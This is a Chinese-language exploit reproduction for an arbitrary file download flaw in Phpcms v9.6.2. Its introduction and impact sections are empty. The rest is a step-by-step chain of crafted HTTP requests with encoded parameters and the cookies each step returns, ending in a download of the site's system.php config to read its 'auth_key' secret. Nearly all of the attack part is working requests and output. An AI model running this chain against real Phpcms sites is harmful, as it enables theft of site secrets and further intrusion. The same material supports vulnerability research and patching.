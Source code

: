 ```yaml
---
title: "Phpcms v9.6.2 任意文件下载"
id: zhfly3081
---
```


# Phpcms v9.6.2 任意文件下载

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 第一步:进行如下请求获得YDVIB_siteid的值。

请求：

```
[GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1 
```

获得：

```
[cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst 
```

##### 第二步:在[POST DATA] 中的userid_flash参数的值设置为，第一步请求得到的YDVIB_siteid参数的值，并进行如下请求。

请求：

```
[GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1 `[POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst` 
```

获得：

```
[cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g 
```

##### 第三步:将GET请求中的a_k参数的值设置为第二步请求获得的YDVIB_att_json参数的值，并进行如下请求。

请求：

```
[get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw 
```

获得：

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

##### 最后点击”点击下载”的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的’auth_key’

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

![image](../img/822b8f777cf8a81d8c5eb1835c179f20.png)

## 参考链接

> https://www.freebuf.com/column/158352.html